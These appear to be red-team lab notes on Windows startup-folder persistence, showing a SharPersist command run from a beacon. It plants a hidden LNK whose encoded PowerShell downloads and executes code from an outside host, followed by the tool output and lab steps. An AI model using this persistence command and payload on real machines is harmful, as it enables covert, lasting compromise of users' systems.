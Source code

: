 
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. It's commonly used to bootstrap the user's home environment (set wallpapers, shortcut's etc).

```shell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```

![[Startup Folder Persistence.png]]
Where:

- `-f` is the filename to save as.

  

Use the Workstation 2 console to check `C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` for the file that was dropped.  To simulate a logoff and logon via Guacamole, right-click the Windows start icon and select _Shut down or sign out > Sign out_.  Guacamole will then give you the options to _r__econnect_ or _l__ogout_.  Select _reconnect_ and it will log you back in.


![[Checking to see if startup is present.png]]


## Proof that the startup file worked:

`Successfully recaught beacon on startup`
![[Startup Beacon Spawn.png]]